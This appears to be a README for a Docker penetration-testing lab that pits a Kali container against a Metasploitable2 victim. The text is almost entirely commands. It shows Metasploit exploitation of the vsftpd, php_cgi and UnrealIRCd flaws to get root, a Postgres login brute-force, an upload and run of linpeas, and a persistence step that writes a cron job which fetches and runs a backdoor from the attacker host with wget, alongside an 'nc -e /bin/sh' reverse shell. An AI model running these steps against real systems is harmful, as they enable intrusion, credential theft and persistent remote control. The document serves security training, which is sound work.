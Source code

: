 
## Setup 

```bash
make up
make ps
```

```bash
make logs container=meta2
make logs container=kali 
```

```bash
make access container=meta2
make access container=kali
```

In each container, run:

```bash
ifconfig # you should see 172.20.0.3 for the attacker and 172.20.0.2 for the victim 
```

From kali, run:

```bash
nmap -F 172.20.0.2
```

## Penetration

### Privilege Escalation

From kali:

```bash
nmap -sV -p 21 172.20.0.2
```

```bash
msfconsole
search vsftpd
#   1  exploit/unix/ftp/vsftpd_234_backdoor
use 1
set rhosts 172.20.0.2
set rport 21
exploit
```

Now to check previliges, directly type:

```bash
whoami #root
```

### Password brute force
From kali:
```bash
msfconsole
search postgres
#   9   auxiliary/scanner/postgres/postgres_login
use 9
set rhosts 172.20.0.2
set STOP_ON_SUCCESS true
run
```

## Stop the containers

```bash
make down
```


## Demo
From kali:

We will run the script by exploiting a php vulnerability but from a non-privileged user
```bash
msfconsole
search php_cgi
use 0
set rhosts 172.20.0.2
exploit 

# we get a meterpreter session
upload linpeas_linux_amd64 . # from here, we upload the linpeas script to the victim
shell # we open a shell in victim
ls # check file was uploaded successfully
chmod 777 linpeas_linux_amd64
./linpeas_linux_amd64 -a > out.txt
exit
```
From meterpreter:
```bash
download out.txt
bg # Go back to msfconsole
```

From kali terminal:
```bash
less -r out.txt # Open linpeas file
```

From msfconsole:
```bash
search unrealirc
use 0
set RHOSTS 172.20.0.2
set LHOST 172.20.0.3
set payload cmd/unix/reverse
exploit
# this creates a shell
whoami # root
shell
```

From root shell:
```bash
# Leaving a backdoor
echo '* * * * * root cd /tmp; wget 172.20.0.3/backdoor && chmod +x backdoor && ./backdoor' > /etc/cron.d/backdoor
```

From another kali terminal:
```bash
# write a backdoor script
nc -e /bin/sh 172.20.0.3 4499

# serve script using http server
python3 -m http.server 80

```

From another kali terminal:
```bash
nc -nlvp 499
# wait
```

Go back to the session:
```bash
sessions -i* # list sessions
sessions -i 1 # go back to the first session
```
